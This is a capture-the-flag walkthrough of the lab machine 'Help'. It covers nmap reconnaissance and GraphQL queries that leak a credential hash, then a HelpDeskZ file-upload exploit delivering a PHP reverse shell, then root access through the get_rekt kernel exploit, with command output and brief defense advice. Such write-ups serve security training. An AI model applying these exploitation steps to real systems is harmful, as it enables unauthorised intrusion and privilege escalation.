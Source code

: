 ## Reconnaissance

Check open services/ports using nmap 

```
# Nmap 7.70 scan initiated Mon Mar 11 21:15:24 2019 as: nmap -vvv -p22,80,3000 -Pn --max-retries 2 -T4 -oN help-detailed-tcp -sC -sV 10.10.10.121
Nmap scan report for 10.10.10.121
Host is up, received user-set (0.15s latency).
Scanned at 2019-03-11 21:15:25 IST for 17s
PORT     STATE SERVICE REASON  VERSION
22/tcp   open  ssh     syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    syn-ack Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
3000/tcp open  http    syn-ack Node.js Express framework
|_http-title: Site doesn't have a title (application/json; charset=utf-8).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

From the open ports, we can see there are two applications running on 80 and 3000 respectively.

On running dirsearch, we can see there is a graphql endpoint on 3000. Fuzzing the endpoints and analyzing the errors, we found that the correct syntax to get the credentials from the query. 

```
GET /graphql?query={user{username}}
Host: http://10.10.10.121:3000

{"data":{"user":{"username":"helpme@helpme.com"}}}

GET /graphql?query={user{password}}
Host: http://10.10.10.121:3000

{"data":{"user":{"password":"5d3c93182bb20f07b994a7f617e99cff"}}}
```

Perfect! Got a username and hashed password. We can use this for spraying later on. 

On to the port 80, we can see there is a helpdesk application running on /support/ folder. Analyzing more about [HelpDeskZ](http://www.helpdeskz.com/), we can find two exploits. 
One is an unauthenticated file upload and authenticated SQL Injection. 

## Exploitation

From exploit-db, we can find the corresponding [exploit](https://www.exploit-db.com/exploits/40300). Reading through the exploit and the [helpdeskz code](https://github.com/evolutionscript/HelpDeskZ-1.0/blob/006662bb856e126a38f2bb76df44a2e4e3d37350/controllers/submit_ticket_controller.php), we can understand two things, 

1) PHP files are allowed to be uploaded by default.
2) Uploaded file names are generated by doing an MD5 on the the file name and uploaded time. 

Now that we have figured out how the exploit works, we can upload a PHP reverse shell manually and run the exploit to generate the file name to query it. 

When I tried to upload the shell using the 'Submit Ticket' functionality, the server was throwing an error saying file type is not allowed. 

<p align="center">
  <img src="https://github.com/gameFace22/vulnhub-walkthrough/blob/master/images/file-error.png">
</p>

After this, I was confused because the PHP files are not getting uploaded. Maybe the box creator removed the PHP from allowed extensions. 
From this point, I had tried multiple bypasses to exploit file upload vulnerability. Yet, I was getting the same error. 

Wanted a nudge on the right direction, so I took a break from the box and checked the forum to see if I am missing something. Most of the comments said to read the upload code carefully. 
Again I started from scratch on how the application handles file uploads. After spending sometime, figured out the file is being uploaded to the machine before the extenstion check is happening!

```
if(!isset($error_msg) && $settings['ticket_attachment']==1){
					$uploaddir = UPLOAD_DIR.'tickets/';		
					if($_FILES['attachment']['error'] == 0){
						$ext = pathinfo($_FILES['attachment']['name'], PATHINFO_EXTENSION);
						$filename = md5($_FILES['attachment']['name'].time()).".".$ext;
						$fileuploaded[] = array('name' => $_FILES['attachment']['name'], 'enc' => $filename, 'size' => formatBytes($_FILES['attachment']['size']), 'filetype' => $_FILES['attachment']['type']);
						$uploadedfile = $uploaddir.$filename;
						if (!move_uploaded_file($_FILES['attachment']['tmp_name'], $uploadedfile)) {
							$show_step2 = true;
							$error_msg = $LANG['ERROR_UPLOADING_A_FILE'];
						}else{
							$fileverification = verifyAttachment($_FILES['attachment']);
							switch($fileverification['msg_code']){
								case '1':
								$show_step2 = true;
								$error_msg = $LANG['INVALID_FILE_EXTENSION'];
								break;
								case '2':
								$show_step2 = true;
								$error_msg = $LANG['FILE_NOT_ALLOWED'];
								break;
```

From above code, we can see that switch case to handle upload errors is being done after the upload.

So whatever shell we have been uploading is in the server, we just need to figure out the file name using the exploit. 

On logging into the application to see the functionalities, there is an option to change the time zone. Since the exploit works based on time, it is better that both the victim and attacker machine should be synced to the same time zone. 
I changed the zone to GMT +530, figured out the UPLOAD_DIR from the code and tried running the exploit

```
(py2) [help] python2.7 40300.py http://10.10.10.121/support/uploads/tickets/ php-reverse-shell.php
Helpdeskz v1.0.2 - Unauthenticated shell upload exploit
found!
http://10.10.10.121/support/uploads/tickets/648c7992e32db31087ed54a48e9543b6.php
```

Exploit worked like charm and we got a shell as user `help`

<p align="center">
  <img src="https://github.com/gameFace22/vulnhub-walkthrough/blob/master/images/help-basic-shell.png">
</p>

## Privilege Escalation

Our goal next is to escalate the privieleges to root. I found an updated version of [linux-exploit-suggester](https://github.com/jondonas/linux-exploit-suggester-2). 
Transferred the file to /tmp of the victim machine and ran the script to see if there are any known exploits. 

```
help@help:/tmp$ perl linux-exploit-suggester-2.pl
perl linux-exploit-suggester-2.pl

  #############################
    Linux Exploit Suggester 2
  #############################

  Local Kernel: 4.4.0
  Searching among 73 exploits...

  Possible Exploits:
[+] af_packet
     CVE-2016-8655
     Source: https://www.exploit-db.com/exploits/40871/
[+] dirty_cow
     CVE-2016-5195
     Source: https://www.exploit-db.com/exploits/40616/
[+] exploit_x
     CVE-2018-14665
     Source: https://www.exploit-db.com/exploits/45697
[+] get_rekt
     CVE-2017-16695
     Source: https://www.exploit-db.com/exploits/45010
```

Luckily, there are a couple of exploits already available. After unsuccessful attempts at running dirtycow, tried get_rekt exploit and it worked. 

```
help@help:/tmp$ gcc 45010.c -o pwnnn
gcc 45010.c -o pwnnn
help@help:/tmp$ ./pwnnn
./pwnnn
[.]
[.] t(-_-t) exploit for counterfeit grsec kernels such as KSPP and linux-hardened t(-_-t)
[.]
[.]   ** This vulnerability cannot be exploited at all on authentic grsecurity kernel **
[.]
[*] creating bpf map
[*] sneaking evil bpf past the verifier
[*] creating socketpair()
[*] attaching bpf backdoor to socket
[*] skbuff => ffff88000af66000
[*] Leaking sock struct from ffff880011d95800
[*] Sock->sk_rcvtimeo at offset 472
[*] Cred structure at ffff880020155e00
[*] UID from cred structure: 1000, matches the current: 1000
[*] hammering cred structure at ffff880020155e00
[*] credentials patched, launching shell...
# whoami
whoami
root
```

## Defense 

[1] Files should be validated before it getting uploaded to the server. <br>
[2] File names should be completely randomized. 

